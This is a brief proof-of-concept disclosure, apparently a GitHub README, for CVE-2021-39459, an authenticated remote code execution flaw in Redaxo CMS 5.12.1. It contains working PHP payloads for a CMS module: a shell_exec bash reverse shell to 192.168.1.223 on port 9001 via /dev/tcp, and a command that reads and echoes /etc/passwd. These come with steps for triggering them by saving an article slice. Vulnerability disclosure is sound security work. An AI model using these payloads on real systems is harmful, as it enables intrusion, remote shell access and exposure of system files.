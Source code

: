 # CVE-2021-39459


## Authenticated Remote Code Execution
- Vendor: Yakamara Media
- Product: Redaxo CMS
- Version: 5.12.1

An authenticated admin user of the cms system can add a maliciuos module with unvalidated php code to trigger local code execution via the shell_exec function.

Steps for proof of concept:

- Add Module with the following php code in the output section for a reverse shell

```php
<?php
shell_exec('bash -c "bash -i >& /dev/tcp/192.168.1.223/9001 0>&1"') 
?>
```

or to get direct output of the command.

```php
<?php
$passwd = shell_exec('cat /etc/passwd');
echo $passwd;
?>
```
- Create or edit an existing articel in the section "structure"
- activate the payload by saving the slice

YouTube Video: https://youtu.be/88ZMGCRHtrM

### direct command output
![getPasswd](https://user-images.githubusercontent.com/16805842/129964278-371fc786-a7a3-4859-af6a-1a43792af44f.png)





